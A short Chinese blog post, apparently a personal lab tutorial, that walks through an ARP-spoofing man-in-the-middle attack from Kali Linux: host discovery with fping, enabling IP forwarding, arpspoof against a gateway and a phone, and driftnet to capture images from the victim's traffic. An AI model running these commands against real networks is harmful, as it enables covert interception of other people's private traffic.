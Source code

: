 ```yaml
---
title: Kali中利用ARP欺骗拦截图片
tags:
  - Arp欺骗
  - kali
date: 2017-04-08 20:43:04
---
```


## 攻击环境

#### 网关：

`192.168.155.1`
<!-- more -->
#### 攻击主机：

`Kali linux 2016.2`

`IP：192.168.155.4`

#### 被攻击主机：

`坚果YQ607`

`IP：192.168.155.3`

`IPHONE(IOS9.3.5)`

`IP：192.168.155.2`

##  攻击步骤

#### 0x00 查看ip及网卡信息

`ifconfig`

#### 0x01 探查同网段主机

`fping -g 192.168.155.1/24`

#### 0x02 设置混杂模式

`echo 1 >> /proc/sys/net/ipv4/ip_forward  `

#### 0x03 用arpspoof来进行中间人攻击

`arpspoof -i eth0 -t 192.168.155.1 192.168.155.3`

#### 0x04 查看网卡拦截的图片

`driftnet -i eth0`

![](http://ovm02pvss.bkt.clouddn.com/kaliarp.png)